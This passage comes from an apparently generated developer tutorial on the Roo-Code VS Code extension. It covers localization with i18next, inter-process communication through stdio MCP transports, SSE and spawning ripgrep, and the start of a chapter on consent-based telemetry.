    *   `TranslationProvider`'s `useEffect` checks the `language` from global state (set by host based on `vscode.env.language`) and calls `i18nInstance.changeLanguage` if needed.
2.  **Language Loading:** `i18nInstance.changeLanguage` (or initial load) triggers the `i18next-http-backend` to fetch the necessary JSON files (e.g., `/locales/fr/common.json`, `/locales/fr/settings.json`) using HTTP requests within the WebView.
3.  **Component Rendering:**
    *   A component calls `const { t } = useAppTranslation();`.
    *   It uses `t('namespace:key')` in its JSX.
4.  **Translation Lookup:** `react-i18next`'s `t` function accesses the `i18nInstance` (via context). `i18nInstance` looks up the key (`namespace:key`) in the translation resources loaded for the current language.
5.  **Fallback:** If the key is not found in the current language, `i18nInstance` checks the `fallbackLng` ('en'). It looks up the key in the English resources.
6.  **Return Value:** The `t` function returns the found translation string (or the key itself if not found anywhere).
7.  **Re-render on Change:** If `i18nInstance.changeLanguage` is called (due to `language` setting changing), `i18next` loads the new resources. `react-i18next` detects the language change and triggers a re-render of components using `useAppTranslation`, causing them to display text in the new language.

**Sequence Diagram (Translating a String):**



## Modification Guidance

Modifications typically involve adding new languages, namespaces, or translation strings.

1.  **Adding a New Language (e.g., German "de"):**
    *   **`config.ts`:** Add `"de"` to the `supportedLanguages` array.
    *   **Create Files:** Create a new directory `public/locales/de/`. Copy all `.json` files from `public/locales/en/` into the new `de` directory.
    *   **Translate:** Translate the string values within each `.json` file in the `de` directory.
    *   **Test:** Change VS Code's language to German (`Configure Display Language` command) and restart/reload Roo-Code to verify the UI appears in German.

2.  **Adding a New Namespace (e.g., "validation"):**
    *   **`config.ts`:** Add `"validation"` to the `ns` array.
    *   **Create Files:** Create `public/locales/en/validation.json`, `public/locales/ja/validation.json`, etc., for all supported languages. Add the necessary key-value pairs.
    *   **Usage:** Use `t('validation:myErrorKey')` in components.

3.  **Adding a New String:**
    *   **Identify Namespace:** Determine the appropriate namespace (e.g., `settings` for a new setting description, `common` for a general label).
    *   **Add Key:** Add the new key-value pair to the *English* JSON file first (e.g., `public/locales/en/settings.json`). Choose a descriptive key (e.g., `"newFeatureDescription": "Enable this cool new feature."`).
    *   **Translate:** Add the key and its translation to the corresponding JSON file for *all other supported languages*.
    *   **Use in Code:** Use `t('settings:newFeatureDescription')` in the React component.

**Best Practices:**

*   **Use Keys, Not Strings:** Always use translation keys (`t('namespace:key')`) in the code, never hardcode user-visible strings (except maybe during initial development before i18n setup).
*   **Default Language First:** Add new strings to the fallback language (English) first. This ensures the UI always has some text even before translations are done.
*   **Namespacing:** Use namespaces logically to group related strings and keep files manageable. Use the default namespace (`common`) for widely used, generic terms.
*   **Consistent Keys:** Use a consistent naming convention for keys (e.g., `camelCase`, `section.subsection.label`).
*   **`Trans` Component:** Use the `Trans` component for translating blocks containing JSX elements or complex formatting to ensure structure is preserved.
*   **Context/Interpolation:** Use interpolation (`{{value}}`) for dynamic data within strings, rather than concatenating strings in code. Use pluralization features for language-correct counts.
*   **Review Translations:** Have translations reviewed by native speakers if possible for accuracy and cultural appropriateness.

**Potential Pitfalls:**

*   **Missing Keys:** Forgetting to add a key to all language files. `i18next` will fall back to English or show the key itself. Enabling `debug: true` helps spot missing keys during development.
*   **Incorrect Namespaces:** Using `t('key')` when the key is actually in `settings:key`. `i18next` might not find it or fall back unexpectedly.
*   **Loading Errors:** The `i18next-http-backend` might fail to load JSON files due to incorrect paths (`getBasePath`), network issues, or malformed JSON in the translation files. Check browser network logs and console.
*   **Language Detection Issues:** `i18next-browser-languagedetector` might not detect the desired language, or the synchronization with VS Code's language setting via `ExtensionStateContext` might fail, leading to the wrong language being displayed.
*   **SSR/Hydration (Not applicable here, but general React i18n):** Server-side rendering with i18n requires careful handling to ensure translations match between server and client.
*   **Suspense:** Using `useSuspense: true` requires wrapping components in `<Suspense>` boundaries, which adds complexity if not already using Suspense for code splitting.

## Conclusion

The Localization System, powered by `i18next` and `react-i18next`, is crucial for making the Roo-Code WebView UI accessible and user-friendly across different languages. By externalizing strings into namespaced JSON files, dynamically loading translations based on the detected locale (primarily driven by VS Code's language setting), providing fallback mechanisms, and offering tools like the `t` function and `Trans` component, Roo-Code can present a localized interface. The `TranslationProvider` and `useAppTranslation` hook streamline the integration within the React component tree, while configuration in `i18n/config.ts` sets up the necessary backend and detection logic. This system ensures that button labels, descriptions, prompts, and other UI text can be effectively translated and maintained.

Next, we will explore the mechanisms used for communication between different processes within the Roo-Code ecosystem, particularly between potentially separate server processes and the main extension: [Chapter 51: IPC (Inter-Process Communication)](51_ipc__inter_process_communication_.md).
---
# Chapter 51: IPC (Inter-Process Communication)

Continuing from [Chapter 50: Localization System (i18n)](50_localization_system__i18n_.md), which covered adapting the UI for different languages, this chapter explores how different *processes* within or related to the Roo-Code ecosystem communicate with each other: **Inter-Process Communication (IPC)**.

## Motivation: Connecting Disparate Processes

While much of Roo-Code runs within the VS Code extension host process and communicates with the WebView UI via a specific message protocol ([Chapter 3: Webview/Extension Message Protocol](03_webview_extension_message_protocol.md)), certain features might involve separate, independent processes:

1.  **MCP Servers (Stdio):** Local MCP servers ([Chapter 19: McpHub / McpServerManager](19_mcphub___mcpservermanager.md)) are often started as child processes (e.g., Node.js scripts, Python scripts, compiled binaries). The main extension needs to send requests (like `tools/call`) to these processes and receive responses.
2.  **Background Services:** Potentially long-running analysis, indexing, or model management tasks might be offloaded to separate background processes to avoid blocking the main extension host.
3.  **External Helper Tools:** Specific functionalities might be implemented as small, standalone command-line tools invoked by the extension.

These separate processes cannot directly call functions or access memory in the main extension host (or vice-versa). They require a defined mechanism to exchange data and commands – this is Inter-Process Communication.

Roo-Code utilizes different IPC mechanisms depending on the context:

*   **Stdio (Standard Input/Output):** For local MCP servers and potentially other child processes, communication often happens by writing JSON-RPC messages (or other line-delimited formats) to the child process's `stdin` and reading responses from its `stdout`. The `@modelcontextprotocol/sdk`'s `StdioClientTransport` and `StdioServerTransport` handle this for MCP.
*   **HTTP/SSE:** For remote MCP servers or potentially other local services running as separate web servers, standard HTTP requests or Server-Sent Events ([Chapter 19: McpHub / McpServerManager](19_mcphub___mcpservermanager.md)) are used. This isn't strictly OS-level IPC but serves the same purpose of inter-process communication over a network interface (even `localhost`).
*   **Node.js `child_process` Module:** Used for invoking external tools like Ripgrep ([Chapter 16: Ripgrep Integration](16_ripgrep_integration.md)) or potentially other helper scripts. Communication might involve command-line arguments for input and capturing `stdout`/`stderr` for output.
*   **VS Code APIs (Less Common for general IPC):** While VS Code provides message passing between WebViews and the host, its APIs for direct communication between *arbitrary* background Node.js processes spawned by the extension are limited. Stdio or local HTTP/WebSockets are more common for this.

**Central Use Case:** Roo-Code (via `McpHub`) needs to call the `analyze_complexity` tool provided by a local MCP server (`project-analyzer`) running as a Node.js child process.

1.  **Process Spawn:** When `McpHub` first connects ([Chapter 19: McpHub / McpServerManager](19_mcphub___mcpservermanager.md)), the `StdioClientTransport` uses `child_process.spawn` to start the server (e.g., `node /path/to/analyzer_server.js`). It keeps references to the child process's `stdin` and `stdout` streams.
2.  **Request:** `McpHub.callTool(...)` is called. The MCP `Client` (using `StdioClientTransport`) formats the `tools/call` request as a JSON-RPC message string (e.g., `{"jsonrpc":"2.0","method":"tools/call","params":{...},"id":123}`).
3.  **Send (Write to Stdin):** The `StdioClientTransport` writes the JSON-RPC string, followed by a newline character (`\n`), to the child process's `stdin` stream.
4.  **Server Receives & Processes:** The `project-analyzer` process reads the line from its `stdin`, parses the JSON-RPC message, identifies the `tools/call` method, executes the `analyze_complexity` logic, and prepares a JSON-RPC response string (e.g., `{"jsonrpc":"2.0","result":{...},"id":123}`).
5.  **Server Sends (Write to Stdout):** The server writes the JSON-RPC response string, followed by `\n`, to its `stdout` stream.
6.  **Receive (Read from Stdout):** The `StdioClientTransport` listens to the child process's `stdout`. It buffers data and splits it by newlines. When it receives the complete response line, it parses the JSON-RPC message.
7.  **Response Handling:** The transport matches the `id` (123) to the pending request and resolves the promise associated with the `client.request` call made in `McpHub.callTool`, providing the `result` payload.

This structured exchange over standard streams allows the two separate Node.js processes to communicate effectively.

## Key Concepts

1.  **Process Boundaries:** IPC is necessary because operating systems isolate processes from each other – they have separate memory spaces.
2.  **Communication Channels:** Processes need a shared channel to exchange data. Common channels include:
    *   **Standard Streams (Stdio):** `stdin`, `stdout`, `stderr`. Text-based or binary data can be piped. Suitable for parent-child process communication. Requires careful message framing (e.g., newlines, length prefixes).
    *   **Sockets (Unix Domain Sockets, TCP/IP):** Allow bidirectional communication between related or unrelated processes, locally or over a network. More complex to set up than stdio.
    *   **Named Pipes (FIFOs):** Similar to sockets but represented as special files in the filesystem (Unix-like systems).
    *   **Message Queues:** OS-level queues for sending messages between processes.
    *   **Shared Memory:** Allows processes to access the same region of physical memory (complex synchronization required).
    *   **HTTP/WebSockets/SSE:** Network protocols used for communication, often via `localhost` for local IPC.

3.  **Serialization:** Data structures (objects, arrays) need to be converted into a format suitable for transmission over the chosen channel (e.g., JSON strings, binary buffers). The receiving process must deserialize the data back into its original structure. JSON is very common for text-based IPC like stdio or HTTP.

4.  **Message Framing/Delimiting:** When using streams like stdio, a mechanism is needed to determine where one message ends and the next begins. Common methods:
    *   **Newline Delimiter:** Each message is sent as a single line, terminated by `\n`. Used by MCP SDK's stdio transport. Requires messages themselves not to contain unescaped newlines.
    *   **Length Prefixing:** Each message is prefixed with its length in bytes. The receiver reads the length first, then reads exactly that many bytes for the message content.

5.  **Request/Response Matching (RPC):** For request-response patterns (like calling a tool), a mechanism is needed to match responses back to their original requests. JSON-RPC uses a unique `id` field for this purpose. The client generates an `id` for each request, and the server includes the same `id` in its response.

6.  **`child_process` Module (Node.js):** Provides functions like `spawn`, `exec`, `execFile`, `fork` to create and manage child processes. `spawn` is generally preferred for long-running processes where stdio interaction is needed, as it provides access to the streams directly.

7.  **MCP SDK Transports:**
    *   **`StdioClientTransport`/`StdioServerTransport`:** Implement MCP communication over stdio using newline-delimited JSON-RPC. `StdioClientTransport` uses `child_process.spawn` to start the server.
    *   **`SSEClientTransport`/`SSEServerTransport`:** Implement MCP communication over HTTP using Server-Sent Events. `SSEClientTransport` uses `ReconnectingEventSource` to connect to a URL.

## IPC Mechanisms Used in Roo-Code

1.  **Extension Host <-> WebView UI:** Uses `panel.webview.postMessage()` and `acquireVsCodeApi().postMessage()` with `window.addEventListener('message')`. This is a specific mechanism provided by the VS Code API, essentially using asynchronous message passing brokered by VS Code itself. Data must be JSON-serializable. ([Chapter 3: Webview/Extension Message Protocol](03_webview_extension_message_protocol.md)).
2.  **Extension Host <-> Local MCP Server:** Uses **Stdio** with newline-delimited JSON-RPC messages, managed by `@modelcontextprotocol/sdk`'s `StdioClientTransport`. The extension host spawns the server process. ([Chapter 19: McpHub / McpServerManager](19_mcphub___mcpservermanager.md)).
3.  **Extension Host <-> Remote MCP Server:** Uses **Server-Sent Events (SSE)** over HTTP, managed by `@modelcontextprotocol/sdk`'s `SSEClientTransport`. ([Chapter 19: McpHub / McpServerManager](19_mcphub___mcpservermanager.md)).
4.  **Extension Host -> Ripgrep Process:** Uses `child_process.spawn` with command-line arguments for input. Captures **stdout** (potentially JSON formatted) and **stderr** for output. ([Chapter 16: Ripgrep Integration](16_ripgrep_integration.md)).
5.  **Extension Host -> Other Child Processes:** Could potentially use `child_process.spawn` with stdio for custom background tasks or helper tools, likely using JSON or another simple text format over stdio streams.

## Code Walkthrough

### Stdio for Local MCP Servers (`StdioClientTransport` usage in `McpHub`)

```typescript
// --- File: src/services/mcp/McpHub.ts ---
// (Inside connectToServer, when config.type === 'stdio')
import { Client } from "@modelcontextprotocol/sdk";
import { StdioClientTransport } from "@modelcontextprotocol/sdk/stdio";
import { logger } from "../../utils/logging";
import { ChildProcessWithoutNullStreams } from "child_process"; // Import for type hint

// ... inside connectToServer ...
if (config.type === "stdio") {
    // Ensure required stdio config fields exist
    if (!config.command) { /* throw error */ }

    logger.info(`Starting MCP Stdio server: ${config.command} ${config.args?.join(" ") ?? ""}`, { ctx: "MCP" });

    // Create the Stdio transport, passing command, args, options (cwd, env)
    const transport = new StdioClientTransport({
        command: config.command,
        args: config.args ?? [],
        options: {
            cwd: config.cwd ?? this.cwd, // Use specified CWD or workspace root
            env: { ...process.env, ...(config.env ?? {}) }, // Merge environment vars
        },
    });

    // Handle errors from the server process stderr
    transport.on("stderr", (data: string) => {
        logger.warn(`MCP Server [${serverName}] stderr: ${data}`, { ctx: "MCP" });
        // Potentially store stderr for display in UI
        connection.server.error = (connection.server.error ? connection.server.error + "\n" : "") + `STDERR: ${data.trim()}`;
        this.notifyWebviewOfServerChanges();
    });

    // Handle transport closure (process exited)
    transport.on("close", (code: number | null, signal: NodeJS.Signals | null) => {
        logger.info(`MCP Server [${serverName}] process exited with code ${code}, signal ${signal}`, { ctx: "MCP" });
        connection.status = "disconnected";
        // Store exit reason if abnormal
        if (code !== 0 && code !== null) {
            connection.server.error = `Process exited unexpectedly with code ${code}. Check logs.`;
        }
        client.disconnect(); // Ensure client state reflects disconnection
        this.notifyWebviewOfServerChanges();
    });

    // Start the child process
    // transport.start() returns the spawned process, useful for getting PID
    let childProcess: ChildProcessWithoutNullStreams | undefined;
    try {
        childProcess = await transport.start();
        logger.info(`MCP Server [${serverName}] process started with PID ${childProcess?.pid}`, { ctx: "MCP" });
    } catch (startError) {
        // Handle errors during process spawning (e.g., command not found)
        logger.error(`Failed to start MCP Server [${serverName}]`, { error: startError, ctx: "MCP" });
        connection.status = "disconnected";
        connection.server.error = `Failed to start process: ${startError.message}`;
        this.notifyWebviewOfServerChanges();
        continue; // Skip connection attempt if start failed
    }

    // Store transport in connection for later cleanup
    connection.transport = transport;

    // Attempt to connect the MCP client over the transport
    await client.connect(transport); // Sends initialize request, awaits response over stdio

    // ... (If connect succeeds, fetch tools, update status etc.) ...
}
```

**Explanation:**

*   `StdioClientTransport` is instantiated with the `command`, `args`, and options (`cwd`, `env`) needed to start the server process.
*   Event listeners (`on("stderr"`, `on("close")`) are attached to the transport to handle output/events from the child process. `stderr` is logged and added to the server error state. `close` updates the connection status.
*   `transport.start()` uses `child_process.spawn` internally to launch the server. Errors during spawning are caught.
*   `client.connect(transport)` initiates the MCP handshake over the stdio streams managed by the transport. JSON-RPC messages (`initialize` request/response) are exchanged.

### HTTP/SSE for Remote MCP Servers (`SSEClientTransport` usage in `McpHub`)

```typescript
// --- File: src/services/mcp/McpHub.ts ---
// (Inside connectToServer, when config.type === 'sse')
import { Client } from "@modelcontextprotocol/sdk";
import { SSEClientTransport } from "@modelcontextprotocol/sdk/sse"; // Import SSE transport
// ... other imports ...

// ... inside connectToServer ...
else if (config.type === "sse") {
    // Ensure URL is provided
    if (!config.url) { /* throw error */ }

    logger.info(`Connecting to MCP SSE server: ${config.url}`, { ctx: "MCP" });

    // Create SSE transport with URL and optional headers
    const transport = new SSEClientTransport({
        url: config.url,
        headers: config.headers ?? {},
    });

    // Handle transport-level errors (e.g., connection refused, network issues)
    transport.on("error", (error) => {
        logger.error(`MCP SSE Server [${serverName}] connection error: ${error?.message ?? error}`, { ctx: "MCP" });
        // Update status only if currently connecting or connected
        if (connection.status === "connecting" || connection.status === "connected") {
            connection.status = "disconnected";
            connection.server.error = `Connection error: ${error?.message ?? "Unknown SSE error"}`;
            this.notifyWebviewOfServerChanges();
        }
        client.disconnect();
    });

    // Handle stream closure
    transport.on("close", () => {
        logger.info(`MCP SSE Server [${serverName}] connection closed.`, { ctx: "MCP" });
        if (connection.status === "connecting" || connection.status === "connected") {
            connection.status = "disconnected";
            // Don't set error on normal close? Or set generic message?
            // connection.server.error = "Connection closed.";
            this.notifyWebviewOfServerChanges();
        }
        client.disconnect();
    });

    // Store transport
    connection.transport = transport;

    // Attempt to connect the client (performs handshake via SSE)
    await client.connect(transport);

    // ... (If connect succeeds, fetch tools, update status etc.) ...
}
```

**Explanation:**

*   `SSEClientTransport` is instantiated with the server `url` and any custom `headers`.
*   It uses `ReconnectingEventSource` internally to establish and maintain the SSE connection.
*   Error handling (`onerror`) and closure (`onclose`) are attached to manage connection state and report issues.
*   `client.connect(transport)` initiates the MCP handshake over the established SSE connection.

### Child Process for Ripgrep (`src/services/ripgrep/index.ts`)

```typescript
// --- File: src/services/ripgrep/index.ts ---
import * as childProcess from "child_process";
import * as readline from "readline";
// ... other imports ...

const MAX_RESULTS = 300;
const maxLines = MAX_RESULTS * 5;

async function execRipgrep(bin: string, args: string[]): Promise<string> {
	return new Promise((resolve, reject) => {
        logger.debug(`Spawning ripgrep: ${bin} ${args.join(" ")}`, { ctx: "Ripgrep" });
        // Spawn the rg process
		const rgProcess = childProcess.spawn(bin, args, {
			stdio: ["ignore", "pipe", "pipe"], // stdin ignored, stdout/stderr piped
		});

		const rl = readline.createInterface({ input: rgProcess.stdout, crlfDelay: Infinity });
		let output = "";
		let lineCount = 0;
		let wasKilled = false;

        // Read stdout line by line
		rl.on("line", (line) => {
			if (lineCount < maxLines) {
				output += line + "\n";
				lineCount++;
			} else if (!wasKilled) {
                // Exceeded limit, kill process
				logger.warn(`Ripgrep output exceeded limit (${maxLines} lines). Killing process.`, { ctx: "Ripgrep" });
				rl.close(); // Stop reading lines
                if (!rgProcess.killed) {
				    rgProcess.kill(); // Send SIGTERM
                }
                wasKilled = true;
			}
		});

        // Capture stderr
		let errorOutput = "";
		rgProcess.stderr.on("data", (data) => { errorOutput += data.toString(); });

        // Handle stream close (usually after process exit)
		rl.on("close", () => {
			if (wasKilled) {
                // If killed due to limit, resolve with partial output
                resolve(output);
            } else if (errorOutput) {
                // If stderr has content, reject
				reject(new Error(`ripgrep process error: ${errorOutput}`));
			} else {
                // Normal close, resolve with full output
				resolve(output);
			}
		});

        // Handle process errors (e.g., spawn failure)
		rgProcess.on("error", (error) => {
            logger.error("Ripgrep process spawn error", { error, ctx: "Ripgrep" });
            reject(new Error(`ripgrep process error: ${error.message}`));
        });

        // Handle process exit
		rgProcess.on("exit", (code, signal) => {
            logger.debug(`Ripgrep process exited with code ${code}, signal ${signal}`, { ctx: "Ripgrep" });
            // If exited with error code AND we didn't get any output/stderr AND didn't kill it, reject.
			if (code !== 0 && signal === null && !output && !errorOutput && !wasKilled) {
				reject(new Error(`ripgrep exited with code ${code}. Stderr was empty.`));
			}
            // Otherwise, rely on 'close' event from readline to resolve/reject based on output/stderr.
		});
	});
}
```

**Explanation:**

*   Uses `child_process.spawn` to run `rg` with specific arguments.
*   `stdio` is configured to ignore `stdin` and pipe `stdout`/`stderr`.
*   `readline` is used to efficiently process `stdout` line by line.
*   Output line count is limited (`maxLines`) to prevent memory issues; the `rg` process is killed if the limit is exceeded.
*   `stderr` content is captured.
*   The promise resolves with the captured `stdout` on normal completion (or if killed due to line limit) and rejects if `stderr` received data or the process exited abnormally without producing output.

## Internal Implementation

The specific IPC mechanism depends on the type of communication needed.

*   **Stdio (MCP):**
    1.  `StdioClientTransport.start()` calls `child_process.spawn`.
    2.  `client.connect()` sends JSON-RPC `initialize` request via `transport.send()` which writes `JSON.stringify(request) + '\n'` to the child process's `stdin`.
    3.  The transport listens to the child process's `stdout`, buffers data, splits by `\n`, parses JSON-RPC responses using `JSON.parse()`, and uses the `id` to resolve pending request promises.
*   **SSE (MCP):**
    1.  `SSEClientTransport` creates a `ReconnectingEventSource` targeting the server URL.
    2.  `client.connect()` sends an initial HTTP request (potentially) or relies on the EventSource connection establishing. Handshake might occur via initial SSE messages.
    3.  Requests (`client.request`) are likely sent via a separate HTTP POST request to a specific endpoint on the same server (as SSE is typically server-to-client only, though workarounds exist). Responses might come back via SSE messages tagged with the request ID. *(Needs confirmation based on actual MCP SDK SSE implementation)*. The transport listens for SSE `message` events, parses the JSON-RPC response, and resolves promises.
*   **Ripgrep (Child Process):**
    1.  `execRipgrep` calls `child_process.spawn`. Input is provided via command-line arguments `args`.
    2.  Listens directly to `rgProcess.stdout` (via `readline`) and `rgProcess.stderr` streams.
    3.  Accumulates `stdout` data into a string buffer.
    4.  Resolves/rejects the promise based on process exit code, `stderr`, and whether output was truncated.

## Modification Guidance

Modifications typically involve supporting new IPC types or adjusting how child processes are managed.

1.  **Supporting a New IPC Type (e.g., Unix Domain Sockets):**
    *   **SDK Level (MCP):** Implement new `Transport` classes (e.g., `UnixSocketClientTransport`) for the `@modelcontextprotocol/sdk` using Node.js's `net` module (`net.connect(socketPath)`). Implement message framing (e.g., newline-delimited JSON).
    *   **`McpHub`:** Add a new `type` (e.g., `"unixsocket"`) to `ServerConfigSchema`. Modify `connectToServer` to instantiate the new transport when this type is encountered. Add necessary configuration fields (e.g., `socketPath`).
    *   **Configuration:** Allow users to specify the new type and `socketPath` in MCP settings JSON.

2.  **Changing Stdio Framing (e.g., Length Prefixing):**
    *   **SDK Level:** Modify `StdioClientTransport` and `StdioServerTransport` significantly. `send` would need to calculate message length, write the length (e.g., as a 4-byte integer), then write the message buffer. The receiving side would need to read the length first, then read exactly that many bytes, then parse. This is more complex than newline delimiting but more robust for arbitrary binary data or messages containing newlines.
    *   **Impact:** Both client (Roo-Code) and server implementations would need to use the updated transport.

3.  **Adjusting Child Process Management (e.g., Resource Limits):**
    *   **Modify Spawning:** When calling `child_process.spawn` (in `StdioClientTransport` or `execRipgrep`), explore options for setting resource limits (CPU, memory) if supported by the OS and Node.js version, although this is often difficult and platform-dependent.
    *   **Timeouts:** Implement stricter timeouts for process execution within `execRipgrep` or potentially add a timeout mechanism around `client.request` calls in `McpHub` if individual tool calls might hang.

**Best Practices:**

*   **Choose Appropriate Mechanism:** Use stdio for tightly coupled parent-child processes. Use HTTP/SSE/WebSockets for network-based or loosely coupled services. Use `child_process` for invoking CLI tools. Use `vscode.authentication` or `vscode.window.registerUriHandler` for OAuth flows.
*   **Standardize Protocol:** Use well-defined protocols like JSON-RPC when possible for request/response interactions over stdio or sockets.
*   **Robust Framing:** Ensure a reliable message framing mechanism (newlines, length prefixing) is used for stream-based IPC (stdio, sockets) to prevent corrupted messages.
*   **Serialization:** Use standard, efficient serialization formats like JSON for structured data.
*   **Error Handling:** Implement error handling for all stages: process spawning, connection establishment, data transmission/reception, serialization/deserialization, and timeouts.
*   **Resource Management:** Ensure child processes are terminated correctly when no longer needed (`transport.close()`, `process.kill()`). Ensure streams and sockets are closed properly.

**Potential Pitfalls:**

*   **Framing Errors:** Incorrectly implemented newline or length-prefix logic can lead to processes hanging (waiting for more data) or parsing errors (reading incomplete/concatenated messages).
*   **Serialization Errors:** Trying to send data that cannot be JSON-serialized, or errors during parsing on the receiving end.
*   **Process Management:** Zombie processes (child processes not terminating correctly), errors spawning processes (command not found, permissions), race conditions if managing multiple child processes without care.
*   **Deadlocks:** In request/response protocols, if either side fails to send an expected message or response, the other side might wait indefinitely (timeouts are essential).
*   **Buffering:** Input/output streams have internal buffers. Data written might not be immediately received. Ensure appropriate flushing mechanisms or delimiters are used. Large amounts of synchronous output from a child can block stdio buffers.

## Conclusion

Inter-Process Communication is essential for enabling Roo-Code to leverage external tools and services, whether they are local MCP servers communicating via stdio, remote services using SSE, or command-line utilities like Ripgrep invoked via `child_process`. Roo-Code utilizes appropriate mechanisms like stdio with JSON-RPC (managed by the MCP SDK), HTTP/SSE, and direct process spawning with stdout/stderr capture, depending on the specific integration need. Understanding these IPC patterns is key to debugging interactions with external processes and extending Roo-Code with new integrations.

Next, we examine how Roo-Code collects and reports usage data and errors for monitoring and improvement: [Chapter 52: TelemetryService](52_telemetryservice.md).
---
# Chapter 52: TelemetryService

Continuing from [Chapter 51: IPC (Inter-Process Communication)](51_ipc__inter_process_communication_.md), which discussed how different processes in Roo-Code communicate, this chapter focuses on how the extension gathers anonymous usage data and error information to help improve the product: the **TelemetryService**.

## Motivation: Understanding Usage and Improving Roo-Code

To make Roo-Code better, the development team needs insights into how it's being used and where problems occur. Gathering anonymous telemetry data helps answer questions like:

*   Which features or commands are most popular?
*   Which LLM providers and models are commonly used?
*   How often do specific errors (API errors, validation failures, tool errors) occur?
*   What is the typical duration or token usage of tasks?
*   Are users encountering issues with specific configurations (e.g., shell integration)?

Collecting this data, while respecting user privacy, allows the team to prioritize development efforts, identify bugs, improve performance, and make data-driven decisions about the product's future direction. Blindly developing without feedback makes it hard to address real user needs and pain points.

The `TelemetryService` provides a centralized mechanism for:
1.  **Collecting Events:** Offering simple methods (`captureEvent`, `captureError`, `captureException`, `captureSchemaValidationError`) for different parts of the codebase to record significant events or errors.
2.  **User Consent:** Respecting the user's choice regarding telemetry collection, based on a dedicated setting (`telemetrySetting`). No data is sent if telemetry is disabled.
3.  **Anonymization:** Ensuring that collected data does not include personally identifiable information (PII) like file contents, API keys, specific user prompts, or detailed file paths (though aggregated/anonymized path information might be considered).
4.  **Context Enrichment:** Automatically adding relevant context to events, such as the Roo-Code version, VS Code version, platform, and potentially anonymized configuration details (like the selected LLM provider name).
5.  **Data Transmission:** Sending the collected and anonymized data to a secure backend service (like PostHog) for aggregation and analysis.

**Central Use Case:** A user runs a "Fix Code" action ([Chapter 30: CodeActionProvider](30_codeactionprovider.md)), and the underlying API call to the LLM results in a rate limit error.

1.  **Action Invoked:** The command handler for `roo-cline.fixCode` calls `telemetryService.captureEvent("codeaction.invoked", { command: "roo-cline.fixCode" })`.
2.  **API Error:** The `ApiHandler` ([Chapter 5: ApiHandler](05_apihandler.md)) catches the rate limit error from the SDK.
3.  **Error Reporting:** The error handling logic calls `telemetryService.captureError("api_error", { provider: "openai", modelId: "gpt-4", errorType: "rate_limit" })`.
4.  **`TelemetryService` Logic:**
    *   Checks if telemetry is enabled (`this.enabled`). Assume yes.
    *   For `captureEvent`: Adds common properties (version, platform, session ID). Sends the event `codeaction.invoked` with its properties to the backend (PostHog).
    *   For `captureError`: Adds common properties. Sends the event `api_error` with its specific properties to the backend.
5.  **Backend:** The telemetry backend receives and aggregates these events, allowing developers to see how often code actions are used and how frequently specific API errors occur for different providers.

## Key Concepts

1.  **Anonymity & Privacy:** The absolute priority. Telemetry **must not** collect PII. This includes:
    *   User code content.
    *   File contents.
    *   Full file paths (relative paths might be acceptable if carefully considered, but often excluded).


